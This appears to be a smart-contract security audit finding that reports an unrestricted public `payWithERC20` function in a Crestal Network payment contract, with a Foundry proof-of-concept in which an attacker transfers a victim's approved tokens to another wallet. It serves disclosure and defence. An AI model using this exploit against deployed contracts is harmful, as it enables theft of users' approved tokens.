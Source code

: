 Shallow Mustard Rooster

Medium

# Unrestricted Access to `payWithERC20` Allows Arbitrary Token Transfers and Accounting Discrepancies

### Summary

The `payWithERC20` function is publicly accessible and lacks proper authorization checks, enabling malicious actors to transfer tokens from any address that has granted approval to the contract. This bypasses admin-controlled token allowlists and creates inconsistencies between actual token balances and internal accounting `userTopUpMp` in the `BlueprintCore` contract.

### Root Cause
https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol#L25
```javascript
// This is to support gasless flow: normally, the caller must always be the msg.sender
    // slither-disable-next-line arbitrary-send-erc20
    function payWithERC20(address erc20TokenAddress, uint256 amount, address fromAddress, address toAddress) public {
        // check from and to address
        require(fromAddress != toAddress, "Cannot transfer to self address");
        require(toAddress != address(0), "Invalid to address");
        require(amount > 0, "Amount must be greater than 0");
        IERC20 token = IERC20(erc20TokenAddress);
        token.safeTransferFrom(fromAddress, toAddress, amount);
    }
```
the payWithERC20 function is declared public and does not:
1. Restrict direct external calls.
2. Validate if the token (erc20TokenAddress) is admin-approved via paymentAddressEnableMp.
3. Ensure the caller (msg.sender) is authorized to act on behalf of fromAddress.

### Internal Pre-conditions

1. The `payWithERC20` function is callable by any external address.

2. The `paymentAddressEnableMp` check is only enforced in userTopUp, not in payWithERC20.

3. Accounting updates `userTopUpMp` are decoupled from token transfers.

### External Pre-conditions

1. A user has approved the contract to spend their ERC20 tokens 

2. An attacker identifies the contract’s address and its public `payWithERC20` function.

### Attack Path

The exploit scenarion can occur in two ways:
1. Enabled Token (USDT): Bob directly calls payWithERC20 to transfer Alice's USDT to the fee wallet. The transfer succeeds despite Alice never initiating a top-up, and her accounting isn't updated.

2. Non-Enabled Token (USDC): Bob transfers USDC (not in allowlist) using the same method. The transfer succeeds, demonstrating the missing token validation in `payWithERC20`.

### Impact

1. Theft of Tokens: Attackers can drain tokens from any address that has approved the contract.
2. Accounting Mismatch: Token transfers via payWithERC20 do not update userTopUpMp, leading to incorrect user balances.

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import {Test} from "forge-std/Test.sol";
import {BlueprintCore} from "../src/BlueprintCore.sol";
import {Payment} from "../src/Payment.sol";
import {MockERC20} from "../test/MockERC20.sol";

contract ErrorTest is Test {
    BlueprintCore blue;
    Payment payment;
    MockERC20 public usdc;
    MockERC20 public usdt;

    address public Alice = makeAddr("Alice");
    address public Bob = makeAddr("Bob");
    address public Admin = makeAddr("Admin");
    address public feeWallet = makeAddr("feeWallet");

    function setUp() public {
        vm.startPrank(Admin);
        blue = new BlueprintCore();
        usdc = new MockERC20();
        usdt = new MockERC20();
        payment = new Payment();

         // Set fee wallet via storage hack (for demonstration)
        bytes32 slot = keccak256(abi.encode(uint256(2))); // Adjust slot based on actual layout
        vm.store(address(blue), slot, bytes32(uint256(uint160(feeWallet))));
        
        // Enable USDT as payment method
        blue.paymentAddressEnableMp(address(usdt));
        vm.stopPrank();

        // Fund Alice and approve the blueprint contract
        usdt.mint(Alice, 100e8);
        usdc.mint(Alice, 100e8);
        vm.prank(Alice);
        usdt.approve(address(blue), type(uint256).max);
        usdc.approve(address(blue), type(uint256).max);
    } 

    function test_ExploitWithEnabledToken() public {
        uint256 initialAliceBalance = usdt.balanceOf(Alice);
        uint256 initialFeeWalletBalance = usdt.balanceOf(feeWallet);

        vm.prank(Alice);
        usdt.approve(address(payment), 50e8);

        //Bob exploit the payWithERC20
        vm.prank(Bob);
        payment.payWithERC20(address(usdt), 50e8, Alice, feeWallet);

        // verify Token wallet
        assertEq(usdt.balanceOf(Alice), initialAliceBalance - 50e8);
        assertEq(usdt.balanceOf(feeWallet), initialFeeWalletBalance + 50e8);

        // Verify accounting mismatch
        assertEq(blue.userTopUpMp(Alice, address(usdt)), 0);
    }

    function test_ExploitWithNonEnanbledToken() public {
        uint256 initialAliceBalance = usdc.balanceOf(Alice);
        uint256 initialFeeWalletBalance = usdc.balanceOf(feeWallet);

         vm.prank(Bob);
        payment.payWithERC20(address(usdc), 30e8, Alice, feeWallet);

        // Verify token transfers
        assertEq(usdc.balanceOf(Alice), initialAliceBalance - 30e8);
        assertEq(usdc.balanceOf(feeWallet), initialFeeWalletBalance + 30e8);

        // Verify no accounting update
        assertEq(blue.userTopUpMp(Alice, address(usdc)), 0);
    }
}
```

### Mitigation

_No response_